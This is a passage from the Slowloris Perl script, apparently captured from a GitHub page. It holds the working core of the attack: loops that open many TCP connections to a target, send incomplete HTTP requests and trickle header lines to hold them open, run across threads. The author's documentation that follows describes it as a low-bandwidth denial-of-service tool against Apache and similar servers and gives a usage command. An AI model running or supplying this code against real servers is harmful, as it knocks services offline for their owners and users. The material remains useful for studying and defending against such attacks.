 $sock[$z] = new IO::Socket::INET(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                         $packetcount = $packetcount + 3;  #SYN, SYN+ACK, ACK                     }                     else {                         $working[$z] = 0;                     }                 }                 if ( $working[$z] == 1 ) {                     if ($cache) {                         $rand = "?" . int( rand(99999999999999) );                     }                     else {                         $rand = "";                     }                     my $primarypayload =                         "$method /$rand HTTP/1.1\r\n"                       . "Host: $sendhost\r\n"                       . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"                       . "Content-Length: 42\r\n";                     my $handle = $sock[$z];                     if ($handle) {                         print $handle "$primarypayload";                         if ( $SIG{__WARN__} ) {                             $working[$z] = 0;                             close $handle;                             $failed++;                             $failedconnections++;                         }                         else {                             $packetcount++;                             $working[$z] = 1;                         }                     }                     else {                         $working[$z] = 0;                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     $failed++;                     $failedconnections++;                 }             }         }         print "\t\tSending data.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 1 ) {                 if ( $sock[$z] ) {                     my $handle = $sock[$z];                     if ( print $handle "X-a: b\r\n" ) {                         $working[$z] = 1;                         $packetcount++;                     }                     else {                         $working[$z] = 0;                         #debugging info                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     #debugging info                     $failed++;                     $failedconnections++;                 }             }         }         print "Current stats:\tSlowloris has now sent $packetcount packets successfully.\nThis thread now sleeping for $timeout seconds...\n\n";         sleep($timeout);     } }  sub domultithreading {     my ($num) = @_;     my @thrs;     my $i                    = 0;     my $connectionsperthread = 50;     while ( $i &lt; $num ) {         $thrs[$i] =           threads->create( \&amp;doconnections, $connectionsperthread, 1 );         $i += $connectionsperthread;     }     my @threadslist = threads->list();     while ( $#threadslist > 0 ) {         $failed = 0;     } }  __END__  =head1 TITLE  Slowloris  =head1 VERSION  Version 0.7 Beta  =head1 DATE  06/17/2009  =head1 AUTHOR  RSnake &lt;h@ckers.org> with threading from John Kinsella  =head1 ABSTRACT  Slowloris both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.  =head1 AFFECTS  Apache 1.x, Apache 2.x, dhttpd, GoAhead WebServer, others...?  =head1 NOT AFFECTED  IIS6.0, IIS7.0, lighttpd, nginx, Cherokee, Squid, others...?  =head1 DESCRIPTION  Slowloris is designed so that a single machine (probably a Linux/UNIX machine since Windows appears to limit how many sockets you can have open at any given time) can easily tie up a typical web server or proxy server by locking up all of it's threads as they patiently wait for more data.  Some servers may have a smaller tolerance for timeouts than others, but Slowloris can compensate for that by customizing the timeouts.  There is an added function to help you get started with finding the right sized timeouts as well.  As a side note, Slowloris does not consume a lot of resources so modern operating systems don't have a need to start shutting down sockets when they come under attack, which actually in turn makes Slowloris better than a typical flooder in certain circumstances.  Think of Slowloris as the HTTP equivalent of a SYN flood.  =head2 Testing  If the timeouts are completely unknown, Slowloris comes with a mode to help you get started in your testing:  =head3 Testing Example:  ./slowloris.pl -dns www.example.com -port 80 -test  This won't give you a perfect number, but it should give you a pretty good guess as to where to shoot for.  If you really must know the exact number, you may want to mess with the @times array (although I wouldn't suggest that unless you know what you're doing).  =head2 HTTP DoS  Once you find a timeout window, you can tune Slowloris to use certain timeout windows.  For instance, if you know that the server has a timeout of 3000 seconds, but the the connection is fairly latent you may want to make the timeout